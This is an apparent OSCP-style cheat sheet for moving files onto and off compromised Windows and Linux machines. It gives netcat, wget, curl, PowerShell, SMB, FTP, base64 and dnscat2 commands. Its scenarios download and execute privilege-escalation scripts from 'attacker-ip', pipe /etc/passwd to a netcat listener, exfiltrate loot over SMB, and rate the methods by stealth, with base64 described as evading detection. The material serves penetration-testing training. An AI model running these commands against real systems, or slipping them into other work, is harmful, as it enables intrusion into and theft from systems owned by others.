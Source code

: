 ##### **File Transfer Tools**  

#### **1. SCP (Secure Copy - Over SSH)**  
- Uses SSH for secure file transfers.  
- Example:  
  ```bash
  scp exploit.py user@target-ip:/tmp/
  ```

#### **2. Rsync (Fast File Synchronization)**
- Useful for transferring multiple or large files.  
- Example:  
  ```bash
  rsync -avz exploit.py user@target-ip:/tmp/
  ```

#### **3. Netcat (Simple and Fast Transfer)**
- **Send File:**  
  ```bash
  nc target-ip 4444 < exploit.sh
  ```
- **Receive File:**  
  ```bash
  nc -lvp 4444 > received_exploit.sh
  ```

#### **4. Python HTTP Server**
- Quick and easy method to host files.  
- **On attacker machine:**  
  ```bash
  python3 -m http.server 8080
  ```
- **On target machine:**  
  ```bash
  wget http://attacker-ip:8080/exploit.sh
  ```

---

### **Advanced & Stealthy File Transfer Methods**  

#### **5. Curl & Wget (Built-in Linux Tools)**
- **Download file:**  
  ```bash
  curl -O http://attacker-ip/file
  ```
  or  
  ```bash
  wget http://attacker-ip/file
  ```

#### **6. PowerShell (For Windows Targets)**
- **Download a file using PowerShell:**  
  ```powershell
  Invoke-WebRequest -Uri "http://attacker-ip/file" -OutFile "C:\Users\Public\loot.exe"
  ```

#### **7. SMB (For Windows File Transfers)**
- **On attacker machine (Kali, start SMB server):**  
  ```bash
  impacket-smbserver share $(pwd) -smb2support
  ```
- **On target machine (Windows, download file):**  
  ```powershell
  copy \\attacker-ip\share\exploit.exe C:\Users\Public\
  ```

#### **8. FTP (When SSH & SMB are unavailable)**
- **On attacker machine (Start FTP server)**  
  ```bash
  python3 -m pyftpdlib -p 21
  ```
- **On target machine (Connect to FTP & download file)**  
  ```bash
  ftp attacker-ip
  get exploit.sh
  ```

#### **9. Base64 Encoding (Evade Detection)**
- **Encode file:**  
  ```bash
  base64 exploit.bin > exploit.b64
  ```
- **Transfer via Netcat, SSH, or Email, then decode on target:**  
  ```bash
  base64 -d exploit.b64 > exploit.bin
  ```

#### **10. DNS Exfiltration (Stealth Transfer)**
- **Using `dnscat2` (for bypassing network filters)**  
  ```bash
  dnscat2 attacker-ip
  ```

---
### **OSCP Real-World File Transfer Scenario**  
**Objective:** Transfer an **exploit script** from your **attacker machine (Kali)** to a **compromised target (Windows/Linux)** and retrieve loot files.  

---

## **Scenario 1: Windows Target (PowerShell + SMB Transfer)**
### **Situation:**  
- You have **low-privilege access** on a Windows machine via a **reverse shell**.  
- You need to **upload a privilege escalation script** and **exfiltrate loot files**.  

### **Attack Workflow**
#### **Step 1: Set Up an SMB Share on Kali**  
Use Impacket's `smbserver.py` to host a share on your attacker machine:  
```bash
impacket-smbserver sharename $(pwd) -smb2support
```

#### **Step 2: On Windows (Download File via PowerShell)**
In your Windows shell, execute:  
```powershell
copy \\attacker-ip\sharename\priv_esc.exe C:\Users\Public\priv_esc.exe
```
Then run the exploit:  
```powershell
C:\Users\Public\priv_esc.exe
```

#### **Step 3: Exfiltrate Loot (Upload to Kali via SMB)**  
Copy files back to your attacker machine:  
```powershell
copy C:\Users\Public\loot.txt \\attacker-ip\sharename\loot.txt
```

---

## **Scenario 2: Linux Target (Netcat + Python HTTP Server)**
### **Situation:**  
- You have **a low-privilege shell** on a **Linux machine**.  
- You need to **transfer LinPEAS.sh for privilege escalation** and retrieve a sensitive file.  

### **Attack Workflow**
#### **Step 1: Host the File on Kali (Python HTTP Server)**
On your attacker machine (Kali):  
```bash
cd /tmp
python3 -m http.server 8080
```

#### **Step 2: On the Linux Target (Download LinPEAS)**
From the low-privilege shell:  
```bash
wget http://attacker-ip:8080/linpeas.sh -O /tmp/linpeas.sh
chmod +x /tmp/linpeas.sh
/tmp/linpeas.sh
```

#### **Step 3: Exfiltrate Sensitive Files with Netcat**
On Kali (Listening for incoming file transfer):  
```bash
nc -lvp 4444 > loot.txt
```

On the compromised Linux machine (Sending the file):  
```bash
cat /etc/passwd | nc attacker-ip 4444
```

---

## **Scenario 3: Fully Restricted Environment (Base64 + Netcat)**
### **Situation:**  
- Your target **does not allow direct file downloads** (no `wget`, `curl`, `scp`).  
- **Solution:** Encode the file in **Base64**, transfer via Netcat, and decode on the target.  

### **Attack Workflow**
#### **Step 1: Encode the Exploit on Kali**
```bash
base64 exploit.sh > exploit.b64
```

#### **Step 2: Transfer with Netcat**
On Kali (Listening for transfer):  
```bash
nc -lvp 5555 < exploit.b64
```

On the target (Send file):  
```bash
nc attacker-ip 5555 > exploit.b64
```

#### **Step 3: Decode & Execute on Target**
```bash
base64 -d exploit.b64 > exploit.sh
chmod +x exploit.sh
./exploit.sh
```

---

## **Summary**
| **Scenario** | **Method Used** | **Target OS** | **Stealth Level** |
|-------------|----------------|--------------|----------------|
| Windows PrivEsc | SMB + PowerShell | Windows |  Low (Can be logged) |
| Linux PrivEsc | Python HTTP + Netcat | Linux |  Medium |
| Restricted Transfer | Base64 + Netcat | Linux/Windows |  High (Evades Filters) |

